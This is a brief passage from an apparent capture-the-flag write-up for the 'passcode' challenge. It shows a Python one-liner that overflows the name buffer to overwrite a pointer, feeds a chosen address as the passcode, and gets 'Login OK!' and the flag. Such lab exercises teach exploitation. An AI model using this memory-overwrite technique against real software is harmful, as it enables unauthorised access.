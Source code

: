 It's int value is 
```python
int(0x0804928f)
# 134517391
```
Using python to construct the bytes:
(the passcode1 scanf translates it to number %d, while the name scanf doesn't)
```shell
python3 -c "import sys; sys.stdout.buffer.write(b'a'*96 + b'\x14\xc0\x04\x08' + b'\n' + b'134517391' + b'\n')" | ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : Login OK!
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning
Now I can safely trust you that you have credential :)
```